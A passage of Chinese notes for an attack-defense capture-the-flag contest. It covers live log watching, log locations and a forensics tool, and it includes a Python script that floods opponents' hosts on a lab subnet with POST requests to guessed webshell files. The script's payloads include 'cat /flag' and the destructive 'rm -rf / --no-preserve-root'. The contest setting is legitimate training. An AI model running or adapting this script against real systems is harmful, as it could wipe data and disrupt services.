 一些修复技巧参考：https://qftm.github.io/2019/08/03/AWD-Bugs-Fix/

## 日志分析

命令行动态查看日志

```
tailf /var/log/apache2/access.log
```

还可以使用工具进行日志分析：[LogForensics 腾讯实验室 /web日志取证分析工具](https://security.tencent.com/index.php/opensource/detail/15)

日志的存放地址

```
/var/log/apache2/
/usr/local/apache2/logs
/usr/nginx/logs/
```

为了对其他防守方进行干扰，可以利用脚本发生大量垃圾数据包，混淆视觉，给对方人员增加检测的难度，浪费对方的时间。

```
import requests
import time

def scan_attack():
    file={'shell.php','admin.php','web.php','login.php','1.php','index.php'}
    payload={'cat /flag','ls -al','rm -f','echo 1','echo 1 /proc/sys/net/ipv4/ip_forward','rm -rf / --no-preserve-root'}
    while(1):
        for i in range(1, 50):
            for ii in file:
                url='http://192.168.182.'+ str(i)+'/'+ii
                print(url)
                for iii in payload:
                    data={
                        'payload':iii
                    }
                    try:
                        requests.post(url,data=data)
                        print("正在搅屎:"+str(i)+'|'+ii+'|'+iii)
                        time.sleep(0.1)
                    except Exception as e:
                        time.sleep(0.1)
                        pass


if __name__ == '__main__':
    scan_attack()
```

## 流量分析
